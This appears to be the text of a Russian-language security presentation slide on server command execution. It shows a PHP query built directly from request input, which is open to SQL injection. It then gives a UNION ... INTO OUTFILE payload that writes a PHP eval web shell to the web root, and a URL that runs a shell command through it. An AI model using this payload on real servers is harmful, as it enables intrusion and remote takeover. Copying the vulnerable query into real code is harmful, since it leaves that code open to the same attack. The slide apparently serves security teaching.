

# Выполнение команд на сервере
Прием данных
$id = $_REQUEST['id'];
Запрос
$res = mysql_query("SELECT name WHERE id = $id");

Текст
1+UNION+SELECT+'<?eval($_GET[cmd]);?>' 						+INTO+OUTFILE+'/www/cmd.php'

Выполнение
/cmd.php?cmd=passthru('ls');